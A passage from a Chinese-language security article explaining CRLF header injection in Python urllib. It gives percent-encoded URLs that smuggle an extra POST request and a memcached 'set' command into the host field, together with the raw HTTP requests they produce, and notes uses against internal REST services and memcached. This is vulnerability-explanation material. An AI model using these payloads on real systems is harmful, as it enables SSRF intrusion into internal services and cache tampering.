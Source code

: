 ```
http://127.0.0.1%0d%0aConnection%3a%20Keep-Alive%0d%0a%0d%0aPOST%20%2fbar%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%0d%0aContent-Length%3a%2031%0d%0a%0d%0a%7b%22new%22%3a%22json%22%2c%22content%22%3a%22here%22%7d%0d%0a:12345/foo

```

这个的响应是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: Keep-Alive  

POST /bar HTTP/1.1
Host: 127.0.0.1
Content-Length: 31  

{"new":"json","content":"here"}
:12345
Connection: close

```

demo中注入的完整的请求头在Apache HTTPD下是工作的，但是其他的server不一定能正确的解析或者利用。这种攻击可以用在内网攻击上，比如未授权的REST、SOAP或者类似的服务[Exploiting Server Side Request Forgery on a Node/Express Application (hosted on Amazon EC2)](http://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html)

攻击memcached
-----------

在[memcached文档](https://github.com/memcached/memcached/blob/master/doc/protocol.txt)中，memcached会开放几个简单的网络协议接口供缓存数据读取和存储使用。一般来说，这种mamcached都是部署在应用服务器上，这样多个实例之间共享数据或者进行一些操作就会比较快，不用进行数据库操作了。要注意的是，memcached默认是都没有密码保护的。开发者或者管理员一般也是认为内网的应用是无法被攻击的。

这样，如果我们可以控制内网的Python访问一个URL，然后我们就可以轻松的访问memcached了，比如

```
http://127.0.0.1%0d%0aset%20foo%200%200%205%0d%0aABCDE%0d%0a:11211/foo

```

就会产生下面的HTTP头

```
GET /foo HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
set foo 0 0 5
ABCDE
:11211

```
